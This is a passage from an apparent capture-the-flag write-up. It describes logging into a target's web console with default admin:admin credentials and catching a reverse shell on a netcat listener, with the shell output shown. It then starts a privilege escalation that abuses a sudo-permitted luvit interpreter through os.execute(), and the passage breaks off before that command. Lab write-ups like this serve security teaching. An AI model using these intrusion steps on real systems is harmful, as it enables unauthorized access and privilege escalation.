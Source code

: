 The default credentials of `admin:admin` were accepted, and I was brought to a console that seemingly let me remotely execute code.

After testing to ensure that it actually did what it purported to do, I ran a Perl script that resulted in a low shell:

![](web-shell-gotuser.png)

```shell
matt@kali:~$ sudo netcat -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.181] 55922
/bin/sh: 0: can't access tty; job control turned off
$ whoami
webadmin
$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
$
```

# Privilege Escalation

The account that I got a low shell on, `webadmin`, was relatively locked down and rightly so. However, it did have the ability to run [luvit](https://luvit.io/) as the `sysadmin` user. Luvit has a built in ability to execute system code via the `os.execute()` function, which I used to get a less restrictive shell:
